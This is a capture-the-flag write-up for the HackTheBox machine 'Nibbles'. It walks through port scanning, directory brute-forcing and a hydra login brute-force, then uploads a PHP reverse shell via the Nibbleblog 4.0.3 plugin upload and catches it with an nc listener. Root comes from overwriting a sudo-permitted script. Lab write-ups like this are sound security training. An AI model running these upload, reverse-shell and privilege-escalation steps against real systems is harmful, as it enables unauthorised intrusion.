







# HackTheBox Nibbles

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)



## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.75

[+] Openning ports: 22,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.75 -p22,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-06 12:13 +07
Nmap scan report for 10.10.10.75
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.65 seconds
```

### Apache httpd 2.4.18

Checking source code, there is a directory `/nibbleblog/`.

```
┌──(Hades㉿10.10.14.5)-[0.9:30.3]~
└─$ curl http://10.10.10.75/                                                                                                        
<b>Hello world!</b>
<snip>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

List of hidden in the server after `/nibbleblog/` using gobuster

```
┌──(Hades㉿10.10.14.5)-[1.7:51.3]~
└─$ gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -q
/install.php          (Status: 200) [Size: 78]
/index.php            (Status: 200) [Size: 2986]
/update.php           (Status: 200) [Size: 1622]
/admin.php            (Status: 200) [Size: 1401]
/.htaccess            (Status: 403) [Size: 306] 
/feed.php             (Status: 200) [Size: 300] 
/sitemap.php          (Status: 200) [Size: 401]
```

### Nibbleblog 4.0.3

I go to `http://10.10.10.75/nibbleblog/install.php`, and it shows the `update` link.



Go to `update.php`, I know the server was running Nibbleblog 4.0.3



Find public exploit using `searchsploit`.

```
┌──(Hades㉿10.10.14.5)-[1.7:43.2]~
└─$ searchsploit Nibbleblog 4.0.3 
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Nibbleblog 4.0.3 - Arbitrary File Upload (Met | php/remote/38489.rb
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### Guessable Admin Credential

At the url `http://10.10.10.75/nibbleblog/admin.php`, It is login page for admin.



I try to brute force with hydra but my ip address have been blocked.

```
hydra -l admin -P /home/kali/directory/rockyou.txt 10.10.10.75 http-post-form '/nibbleblog/admin.php:username=admin&password=^PASS^:Incorrect username or password.'
```



Let's try a manual guess with some common credentials and I got the username `admin`, password `nibbles` to login successfully.



### Nibbleblog 4.0.3 Upload

Follow exploit `php/remote/38489.rb` and searching in the internet, I found manual steps [here](https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/).

At [Plugins My image](http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image), upload file `php-reverse-shell.php`.



Execute file upload and get reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:42.7]~/payloads/web-shells/php
└─$ curl 10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

At the listener, I have reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:42.7]~/walkthrough/hackthebox/nibbles
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.75] 47294
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 02:47:49 up  1:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

## Privilege Escalation

### Sudo access file overwrite

At home nibbler's folder, I saw a personal.zip file, try to unzip it and read more.

```
nibbler@Nibbles:/home/nibbler$ ls -la
<snip>
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Apr  6 01:12 user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip 
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

And also, I enum sudo permission execute file `/home/nibbler/personal/stuff/monitor.sh` as root without require password.

```
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Change file `monitor.sh` to spawn bash as root and run it with sudo command.

```
shbbler@Nibbles:/home/nibbler$ echo bash > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:/home/nibbler# id
uid=0(root) gid=0(root) groups=0(root)
```